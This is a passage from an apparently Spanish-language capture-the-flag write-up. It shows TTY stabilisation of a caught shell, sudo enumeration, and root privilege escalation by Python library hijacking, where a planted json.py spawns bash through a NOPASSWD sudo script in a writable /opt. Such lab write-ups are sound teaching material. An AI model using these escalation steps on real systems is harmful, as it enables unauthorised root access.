 Y nos devuelve la conexión.

Vamos a hacer el tratamiento de la tty para que todo funcione perfectamente:

```
script /dev/null -c bash

ctrl Z

stty raw -echo; fg 
reset xterm 
export TERM=xterm
export SHELL=bash
```

Si ejecutamos sudo -l vemos lo siguiente:

```
sudo -l
Matching Defaults entries for www-data on ca0ef721a806:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on ca0ef721a806:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/spidy.py
```

Podemos ejecutar como root el script de /opt, que si lo hacemos, en principio no hace nada que nos eleve privilegios.

Si vemos los propietarios y los permisos de /opt, vemos el grupo spiderlab, que tiene permisos de escritura en dicha carpeta.

Vemos que www-data pertenece al grupo spiderlab:

```
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),1002(spiderlab)
```

Por tanto podemos escribir en el directorio /opt

Para escalar privilegios haremos un *python library hijacking*

Para ello, nos creamos un archivo .py con el nombre de alguna libreria importada en el script de spidy.py:

```
nano json.py
```

Con este contenido:

```
import os

os.system("/bin/bash")
```
